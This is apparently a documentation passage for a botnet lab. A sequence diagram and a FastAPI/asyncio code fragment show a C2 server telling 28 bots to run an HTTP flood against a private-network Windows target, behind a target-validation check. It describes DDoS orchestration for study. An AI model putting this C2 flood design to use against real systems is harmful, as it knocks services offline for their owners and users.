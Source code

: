 ```mermaid
sequenceDiagram
    participant You as 👨‍💻 You
    participant API as 🌐 FastAPI
    participant C2 as 🏢 C2 Server
    participant Validator as 🛡️ Pydantic
    participant Bots as 🤖 All 28 Bots
    participant Target as 🎯 Windows Target
    
    You->>API: POST /api/attack/start<br/>{"type": "http_flood", "target": "192.168.1.200"}
    
    API->>Validator: Validate attack config
    Validator-->>API: ✅ Config is safe and valid
    
    API->>C2: Start HTTP flood attack
    
    Note over C2: asyncio broadcasts to all bots<br/>simultaneously (no waiting!)
    
    C2->>Bots: 📢 "All units: Start HTTP flood!"
    
    Note over Bots: All 28 bots start attacking<br/>at the same time
    
    Bots->>Target: 🌊 HTTP flood traffic<br/>(2,800 requests/second total)
    
    Target-->>Bots: 😵 Overwhelmed responses
    
    Bots->>C2: 📊 "Attack status: 50 req/sec each"
    C2->>You: 📈 Live dashboard updates
```

**What happens in the code:**
```python
# You click "Start Attack" on the web interface
# FastAPI receives your request:
@app.post("/api/attack/start")
async def start_attack(attack_config: AttackConfig):
    # Pydantic validates: "Is this attack safe and legal?"
    if not validate_attack_target(attack_config.target_ip):
        return {"error": "Target not allowed!"}
    
    # C2 broadcasts to all 28 bots using asyncio
    command = {
        "command": "start_http_flood",
        "target": "192.168.1.200",
        "intensity": 50  # requests per second per bot
    }
    
    # Send to all bots simultaneously (not one by one!)
    await asyncio.gather(*[
        bot_websocket.send(json.dumps(command))
        for bot_websocket in all_28_bot_connections
    ])
```

---